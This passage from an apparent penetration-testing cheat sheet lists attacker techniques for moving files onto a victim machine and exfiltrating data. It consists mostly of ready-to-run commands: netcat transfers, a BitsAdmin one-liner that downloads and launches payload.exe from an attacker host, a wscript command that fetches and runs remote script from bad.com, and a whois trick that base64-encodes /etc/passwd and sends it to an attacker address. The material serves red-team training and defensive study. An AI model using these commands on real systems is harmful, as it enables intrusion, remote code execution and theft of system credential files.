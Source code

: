 ```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

# Victim
nc $ATTACKER 4444 > file.exe
```

#### HTTP: Windows "debug.exe" Method

```bash
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt
# 2. Paste nc.txt into Windows Shell.
```

#### HTTP: Windows BitsAdmin

```bash
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

#### Wscript Script Code Download & Execution

{% code-tabs %}
{% code-tabs-item title="cmd" %}
```text
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js
```
{% endcode-tabs-item %}

{% code-tabs-item title="code.js" %}
```markup
<?xml version="1.0"?>
<package>
<component id="PopCalc">
<script language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc"); 
    ]]>
</script>
</component>
</package>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Whois Data Exfiltration

```bash
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```
